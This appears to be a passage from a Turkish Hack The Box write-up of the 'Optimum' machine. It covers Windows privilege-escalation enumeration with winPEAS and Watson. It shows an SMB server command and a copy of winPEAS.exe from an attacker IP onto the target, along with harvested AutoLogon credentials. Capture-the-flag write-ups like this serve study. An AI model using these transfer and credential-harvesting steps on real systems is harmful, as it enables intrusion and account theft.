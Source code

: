 ### Enumeration - winPEAS

WinPEAS kullanarak yetki yükseltme yollarını araştırmaya başladım. Bunun için önce local makinama WinPEAS deposunu klonladım ve içindeki Windows exe dosyasının bulunduğu dizinde bir SMB sunucusu başlattım. SMB sunucusunu aşağıdaki komutla çalıştırdım:

```
sudo smbserver.py share . -smb2support
```

```
PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe .
```

Şimdi .\winPEAS.exe ile çalıştıracağım. Çıktıyı taradığımda birkaç ilginç şey gördüm.

Kutu Windows Server 2012 R2 ve 64 bit:

```
    Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64
```

Kostas kullanıcı hesabına ait kimlik bilgileri bulundu.

```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*    
```

Birçok servis potansiyel olarak ilginç olarak işaretlendi, ancak bunlar üzerinde yapılan araştırmalar sonuç vermedi.

### Enumeration - Watson/Sherlock

WinPEAS çıktısında olmadığını fark ettiğim bir şey de [Watson](https://github.com/rasta-mouse/Watson) sonuçlarıydı. Watson, bu Windows hostunun savunmasız olabileceği CVE'ler için hızlı bir denetleyicidir ve orijinal HTB günlerinde bu yaygın bir yükseltme tekniğiydi (aslında, bu hostta amaçlanan yol budur). Neden çalışmadığına dair en iyi tahminim, winPEAS'de Watson tarafından istenen .NET sürümünün 4.5 olduğu ve bu hostta yalnızca 4.0'a kadar olduğu:

```
PS C:\windows\microsoft.net\framework> ls


    Directory: C:\windows\microsoft.net\framework


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         22/8/2013   6:39 ??            v1.0.3705
d----         22/8/2013   6:39 ??            v1.1.4322
d----         22/8/2013   6:39 ??            v2.0.50727
d----         20/3/2021   8:06 ??            v4.0.30319
...[snip]...
```
